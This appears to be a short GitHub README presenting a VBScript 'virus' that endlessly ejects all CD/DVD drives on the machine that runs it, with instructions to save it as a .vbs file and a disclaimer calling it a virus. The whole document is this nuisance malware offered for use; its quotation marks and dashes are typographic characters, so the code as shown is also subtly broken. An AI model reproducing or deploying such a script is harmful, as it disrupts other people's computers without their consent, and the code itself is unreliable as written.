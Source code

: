 # Continious Cd Drive Popup VBS Virus
This code will Continuously Popup Cd/Dvd/Drive ROMs From The System After Executing The Files. 
<br>
<br>
copy the following code in notepad and save that with .vbs extention
```shell
Set oWMP = CreateObject(”WMPlayer.OCX.7″)
 Set colCDROMs = oWMP.cdromCollection
 do
 if colCDROMs.Count >= 1 then
 For i = 0 to colCDROMs.Count – 1
 colCDROMs.Item(i).Eject
 Next
 For i = 0 to colCDROMs.Count – 1
 colCDROMs.Item(i).Eject
 Next
 End If
 wscript.sleep 100
 loop
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

